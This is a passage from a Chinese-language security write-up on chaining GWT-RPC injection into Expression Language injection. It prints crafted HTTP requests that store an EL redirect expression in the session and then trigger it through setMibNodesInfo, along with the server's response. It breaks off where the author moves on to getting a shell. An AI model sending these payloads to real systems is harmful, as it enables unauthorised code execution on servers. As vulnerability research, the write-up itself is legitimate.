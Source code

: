 

```
POST /someService.gwtsvc HTTP/1.1
Host: [target]
Accept: */*
X-GWT-Module-Base: 
X-GWT-Permutation: 
Cookie: JSESSIONID=[cookie]
Content-Type: text/x-gwt-rpc; charset=UTF-8
Content-Length: 195
6|0|6||45D7850B2B5DB917E4D184D52329B5D9|com.aaa.bbb.ccc.ddd.client.SomeService|sendBeanName|java.lang.String|facesContext.getExternalContext().redirect("http://srcincite.io/")|1|2|3|4|1|5|6|
```

服务器响应为// OK [[]，0,6]，我们就可以知道GWT注入是成功的。然后，通过第二个请求触发存储在会话字符串中的表达式语言注入漏洞。但是，在发送这个请求之前，由于我们需要使用复合类型的setMibNodesInfo函数，因此我们需要查找定义允许发送的可用类型的策略文件。在[strong name] .gwt.rpc文件中，我找到了ArrayList的类型值：java.util.ArrayList / 382197682。

现在我们可以在请求中使用该类型了： 



```
POST /someService.gwtsvc HTTP/1.1
Host: [target]
Accept: */*
X-GWT-Module-Base: 
X-GWT-Permutation: 
Cookie: JSESSIONID=FB531EBCCE6231E7F0F9605C7661F036
Content-Type: text/x-gwt-rpc; charset=UTF-8
Content-Length: 171
6|0|6||45D7850B2B5DB917E4D184D52329B5D9|com.aaa.bbb.ccc.ddd.client.SomeService|setMibNodesInfo|java.util.List|java.util.ArrayList/3821976829|1|2|3|4|1|5|6|0|
```

相应的响应如下所示： 



```
HTTP/1.1 302 Found
Server: Apache-Coyote/1.1
Set-Cookie: JSESSIONID=[cookie]; Path=/; Secure; HttpOnly
Set-Cookie: oam.Flash.RENDERMAP.TOKEN=-g9lc30a8l; Path=/; Secure
Pragma: no-cache
Cache-Control: no-cache
Expires: Thu, 01 Jan 1970 00:00:00 GMT
Pragma: no-cache
Location: http://srcincite.io/
Content-Type: text/html;charset=UTF-8
Content-Length: 45
Date: Wed, 03 May 2017 18:58:36 GMT
Connection: close
//OK[0,1,["java.lang.Boolean/476441737"],0,6]
```

当然，对所有的漏洞检测来说，重定向是非常不错的，但我们真正想要的却是shell。阅读Minded Securities的文章后，发现可以使用ScriptEngineManager的JavaScript引擎动态执行Java代码。当然，他们的代码有点长，这里给出我自己的精简版本。 
